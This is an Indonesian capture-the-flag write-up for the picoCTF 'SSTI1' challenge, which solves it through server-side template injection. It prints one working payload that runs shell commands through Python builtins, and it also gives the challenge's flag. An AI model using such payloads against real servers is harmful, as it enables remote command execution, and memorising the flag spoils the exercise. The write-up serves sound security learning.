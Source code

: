 # SSTI1 Server Side Template Injection picoCTF

Link referensi: https://play.picoctf.org/practice/

Author: Venax

Description
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance

# Solusi

Kita diberi sebuah input pada website yang merupakan server side template injection sesuai nama challnya, yang saya asumsikan pada umumnya aplikasi menggunakan template engine handlebars. Saya coba payload pertama yang menjalankan command import os dengan builtin function dan melakukan 'pwd'

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('pwd').read() }}
```

hasilnya yaitu:

<img src="./img/11.png" />
<img src="./img/12.png" />

dan berhasil, dengan begitu saya langsung saja coba `ls` pada direktori sekarang dengan asumsi akan mendapatkan file flag pada direktori tersebut.

<img src="./img/13.png" />

dengan begitu saya langsung saja coba lihat isi flag

<img src="./img/14.png" />

dengan begitu selesailah chall ini dengan flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}
```
